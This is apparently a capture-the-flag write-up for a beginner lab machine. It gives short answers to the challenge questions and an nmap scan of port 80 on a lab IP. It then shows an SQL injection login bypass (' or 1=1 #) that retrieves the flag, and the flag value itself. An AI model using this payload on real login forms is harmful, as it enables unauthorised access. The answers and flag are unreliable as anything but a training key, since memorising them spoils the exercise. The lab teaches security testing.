 # Target Info
Target Machine IP = 10.129.13.158

# Solution
1. Structured Query Language
2. SQL Injection
3. Personally Identifiable INformation
4. A03:2021-Injection
5. run nmapon port 80, Apache httpd 2.4.38 ((Debian))
```
± sudo nmap -p 80 -sV 10.129.13.158
Starting Nmap 7.80 ( https://nmap.org ) at 2023-05-21 21:09 WIB
Nmap scan report for 10.129.13.158
Host is up (0.52s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.18 seconds
```
6. 443
7. directory
8. 404
9. dir
10. #
11. Congratulations
12. get the flag with this sqli query
```
username : ' or 1=1 #
password : random
```
Result:
![image](https://github.com/ilhamhanifan/hackerman/assets/53177896/bc52bf68-1498-4775-8edc-8c0652a81a8b)


flag = e3d0796d002a446c0e622226f42e9672
